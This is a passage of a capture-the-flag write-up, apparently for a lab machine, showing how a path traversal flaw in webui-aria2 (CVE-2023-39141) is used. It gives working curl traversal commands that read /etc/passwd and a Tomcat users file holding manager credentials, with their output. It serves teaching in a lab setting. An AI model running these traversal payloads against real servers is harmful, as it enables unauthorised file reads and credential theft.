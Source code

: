 {{text("Visiting the page on port 8888, we find the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>aria2</code> web application.")}}

{{image("../../static/writeups/backtrack/images/000001.jpg")}}

{{text("By checking the server info in the settings tab, we discover that the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>aria2</code> version is 1.35.0.")}}

{{header("Shell as tomcat", "shell-as-tomcat")}}

{{text("While searching for a vulnerability in this version, we come across the following.")}}

{{link("https://gist.github.com/JafarAkhondali/528fe6c548b78f454911fb866b23f66e", "../../static/writeups/images/github.jpg", "webui-aria2 CVE-2023-39141")}}

{{text("It is a path traversal vulnerability that allows us to read files outside the serving path.")}}

{{text("Let's try the payload provided.")}}

{{console("curl --path-as-is http://10.10.156.56:8888/../../../../../../../../../../../../../../../../../../../../etc/passwd", "root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
...
tomcat:x:1002:1002::/opt/tomcat:/bin/false
orville:x:1003:1003::/home/orville:/bin/bash
wilbur:x:1004:1004::/home/wilbur:/bin/bash
...")}}

{{text("The payload works, and we are able to view the users on the server. We notice the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>tomcat</code> user with a home directory at <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/opt/tomcat</code>. Tomcat users are typically stored in an XML file, so if we can find it, we should obtain our first set of credentials.")}}

{{text("Searching for the location of the Tomcat users' XML file, we learn that it should be located at <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/conf/tomcat-users.xml</code>. Let's try to read this file.")}}

{{console("curl --path-as-is http://10.10.156.56:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml", "<?xml version='1.0' encoding='UTF-8'?>
<tomcat-users xmlns='http://tomcat.apache.org/xml'
              xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance'
              xsi:schemaLocation='http://tomcat.apache.org/xml tomcat-users.xsd'
              version='1.0'>

  <role rolename='manager-script'/>
  <user username='tomcat' password='[REDACTED]' roles='manager-script'/> 

</tomcat-users>")}}

{{text("Now, let's switch to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>tomcat</code> server at port 8080 and log in with our credentials by accessing the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Manager App</code>.")}}
